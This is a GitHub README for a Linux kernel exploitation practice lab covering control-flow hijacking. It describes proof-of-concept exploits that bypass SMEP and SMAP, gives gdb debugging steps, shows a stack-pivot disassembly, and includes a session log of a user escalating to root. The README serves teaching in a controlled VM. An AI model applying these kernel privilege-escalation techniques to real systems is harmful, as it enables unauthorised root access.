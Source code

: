 # Boffer

A stand for practicing CFHjack in the Linux kernel

<p align="center"><img src="boffer.gif"/></p>

## Purpose

The purpose of this project is to provide a safe and controlled environment for learning about
Linux kernel security and exploiting vulnerabilities.

## Background

Control Flow Hjack is a well-known problem in Linux kernel security so there are various mitigations.
This project aims to provide a hands-on environment for learning about these topics and practicing exploitation techniques.

## Usage

### About PoCs

- `nothing.c` works only without mitigations
- `smep.c` beats down the SMEP
- `smap.c` wins both: SMEP and SMAP

### Preparing

Get a script to retrieve __vmlinux__ form __bzImage__:

```bash
wget https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/plain/scripts/extract-vmlinux -O extract-vmlinux.sh
```

Extract __vmlinux__:

```bash
bash extract-vmlinux.sh bzImage > vmlinux
```

### Exploring

In the first terminal, run:

```bash
bash run.sh
y
y
```

Then, in the second:

```
gdb vmlinux
target remote 127.0.0.1:1234
break *0xffffffffc0000057
c
```

Return to the VM (1st terminal):

```
./smap

```

And here we are! Watch the kernel buffer overflow!

```
──────────────────────[ DISASM / x86-64 / set emulate on ]───────────────────────

 ► 0xffffffffc0000057    ret                                <0xffffffff81784532>
    ↓
   0xffffffff81784532    mov    esp, 0x83000000		    ESP => 0x83000000
   0xffffffff81784537    ret
```

For example, here you can see the _stakpivoting_ technique. Simply press `c` in __gdb__ to achieve root.

```
/exp $ id
uid=1000(chal) gid=1000(chal) groups=1000(chal)
/exp $ grep -o -E "smep|smap" /proc/cpuinfo 
smep
smap
/exp $ id
uid=1000(chal) gid=1000(chal) groups=1000(chal)
/exp $ ./smap
[+] device opened
[+] the flow is defeated!
/exp # id
uid=0(root) gid=0(root)
/exp #
```
